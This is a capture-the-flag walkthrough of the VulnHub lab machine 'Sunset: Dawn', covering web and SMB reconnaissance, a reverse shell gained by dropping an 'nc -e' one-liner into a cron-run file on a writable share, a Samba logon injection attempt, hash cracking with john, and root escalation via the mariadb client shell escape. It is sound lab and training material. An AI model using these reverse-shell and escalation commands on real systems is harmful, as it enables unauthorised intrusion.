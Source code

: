 # Sunset: Dawn

https://www.vulnhub.com/entry/sunset-dawn,341/

## Initial reconnaissance

I used netdiscover to find the machine - it was `PCS Systemtechnik GmbH` on the local network again. Running a `nmap -T4 -A -v` against the machine resulted in:

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, Support41Auth, SupportsCompression, IgnoreSigpipes, Speaks41ProtocolNew, Speaks41ProtocolOld, ODBCClient, InteractiveClient, FoundRows, SupportsTransactions, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: cAY~.f;3.*'%%*@G"p1A
|_  Auth Plugin Name: mysql_native_password
```

I ran dirb and nikto on the web site, but they found little:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.165
+ Target Hostname:    192.168.1.165
+ Target Port:        80
+ Start Time:         2020-03-14 01:25:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type                                   
+ No CGI Directories found (use '-C all' to force check all possible dirs)                                                                                                                  
+ Server may leak inodes via ETags, header found with file /, inode: 317, size: 58f2eb81ffb49, mtime: gzip                                                                                  
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD                                                                                                                                            
+ OSVDB-3268: /logs/: Directory indexing found.                                                                                                                                             
+ OSVDB-3092: /logs/: This might be interesting...                                                                                                                                          
+ OSVDB-3233: /icons/README: Apache default file found.                                                                                                                                     
+ 7915 requests: 0 error(s) and 8 item(s) reported on remote host                                                                                                                           
+ End Time:           2020-03-14 01:27:23 (GMT-4) (141 seconds)                                                                                                                             
---------------------------------------------------------------------------                                                                                                                 
+ 1 host(s) tested
```

The log folder contained auth, daemon, error and management .log files. Only the management file could be read (the others returned a 403):

`Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...`

dirb running with its default list found the logs folder. When run with the big.txt wordlist it found two more things, both throwing 403:

```
---- Scanning URL: http://192.168.1.165/ ----
==> DIRECTORY: http://192.168.1.165/cctv/                                                                                                                                                  
==> DIRECTORY: http://192.168.1.165/logs/                                                                                                                                                  
+ http://192.168.1.165/server-status (CODE:403|SIZE:301)                                                                                                                                   
                                                                                                                                                                                           
---- Entering directory: http://192.168.1.165/cctv/ ----
(!) WARNING: All responses for this directory seem to be CODE = 403.                                                                                                                       
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                           
---- Entering directory: http://192.168.1.165/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.           
```

## SMB

There are two smb shares visible via nmap. I ran `smbclient -L <ip address>` to see the following:
  
```
  Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

```

The print share could not be accessed, the ITDEPT share was empty, and the IPC dir allowed access but no commands.

I tried creating a reverse shell via the `logon` command (`logon "/=``nc <kali ip> 4444 -e /bin/bash``"`) but it didn't work. Felt a bit stuck at this point.

## management.log and reverse shell

I wget/catted the management log file again, and found a mass of entries. Including this:

```
2020/03/14 22:41:01 CMD: UID=1000 PID=679    | /bin/sh -c /home/dawn/ITDEPT/product-control 
2020/03/14 22:41:01 CMD: UID=0    PID=676    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control 
```

So I put `nc 192.168.1.78 7777 -e /bin/sh` into a file called product control, then uploaded it to the smb drive. Half a minute later I had a reverse shell as dawn. I used `python -c "import pty;pty.spawn('/bin/bash');"` to get a better interface.

## mysql creds

`sudo -l` showed dawn had access to mysql, however sudo running this still gave access denied on the database with no password. I floated around and opened the bash history for dawn, finding lots of stuff including:

```
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
sudo -l 
su 
sudo -l 
sudo mysql -u root -p
```

Taking that hash to kali and cracking it with `sudo john --wordlist=/usr/share/wordlists/rockyou.txt mysqlpwd.txt` returned `onii-chan29`. 

## mariaDB privesc and win

The above password worked on mysql, which dropped me into the mariadb client. Poking around in the database didn't do too much for me, so I investigated running commands. `! bash` is the common syntax, but thats for the newer mysql client. For mariadb, the syntax is `\! bash;`, which dropped me to a root shell!

Catting the flag under /root returned:

```
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3e52f0a6af0d6e36d7c1ced3a9fd59}
```

Reading other readups typically showed they found dawn could also access zsh as root, and so just ran that. I think my mariadb approach was more fun :)